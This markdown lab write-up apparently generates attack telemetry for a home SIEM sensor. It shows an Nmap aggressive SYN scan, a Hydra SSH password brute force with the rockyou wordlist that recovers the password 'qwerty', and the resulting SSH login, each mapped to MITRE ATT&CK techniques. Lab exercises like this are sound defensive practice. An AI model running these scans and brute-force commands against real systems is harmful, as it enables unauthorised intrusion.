

# 03 — Attack Scenario

## Scenario

A flat network with no existing security visibility. Attacker (Kali) targets the sensor node (aegis-sentinel) with two techniques: network reconnaissance followed by credential brute force and initial access via SSH.

---

## Attack #1 — Network Reconnaissance

**Objective:** Map the target, identify open ports, detect OS and service versions.

**Tool:** Nmap 7.98  
**Source:** MacBook Pro (172.20.10.4)  
**Target:** aegis-sentinel (172.20.10.6)

```bash
sudo nmap -sS -A -T4 172.20.10.6
```

### Flag breakdown

| Flag | Name | Description |
|:-----|:-----|:------------|
| `-sS` | SYN Stealth Scan | Sends SYN, resets before completing handshake — half-open, harder to log |
| `-A` | Aggressive | OS detection + service versions + default scripts + traceroute |
| `-T4` | Timing Template 4 | Fast scan — aggressive timing |

### Result

```
PORT   STATE  SERVICE  VERSION
22/tcp open   ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.15
OS:    Linux 4.15-5.19
MAC:   CA:24:5F:0E:0F:FD (Unknown)
Network Distance: 1 hop
```

**Attacker insight:** Port 22 open → SSH running → brute force viable.

---

## Attack #2 — SSH Brute Force + Initial Access

**Objective:** Crack SSH credentials for user `aegis-siem`, gain shell access.

**Tool:** Hydra 9.6  
**Source:** Kali Laptop (172.20.10.8)  
**Target:** aegis-sentinel (172.20.10.6)  
**Wordlist:** `/usr/share/wordlists/rockyou.txt` (14,344,399 entries)

```bash
hydra -l aegis-siem -P /usr/share/wordlists/rockyou.txt -t 4 ssh://172.20.10.6
```

### Flag breakdown

| Flag | Description |
|:-----|:------------|
| `-l aegis-siem` | Target username |
| `-P rockyou.txt` | Password wordlist |
| `-t 4` | 4 parallel connections |

### Result

```
[22][ssh] host: 172.20.10.6   login: aegis-siem   password: qwerty
1 of 1 target successfully completed, 1 valid password found
```

Password `qwerty` found — position ~491 in rockyou.txt.



### Initial Access

```bash
ssh aegis-siem@172.20.10.6
# password: qwerty
```

```
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.17.0-19-generic x86_64)
Last login: Sun Mar 22 12:09:06 2026 from 172.20.10.8
aegis-siem@aegis-sentinel:~$
```

Attacker successfully logged into aegis-sentinel using compromised credentials.

---

## MITRE ATT&CK

| Technique | ID | Tool |
|:----------|:---|:-----|
| Active Scanning | T1595 | nmap -sS -A -T4 |
| Brute Force: Password Guessing | T1110.001 | Hydra + rockyou.txt |
| Remote Services: SSH | T1021.004 | SSH with stolen credentials |
| Valid Accounts | T1078 | Authenticated SSH session |
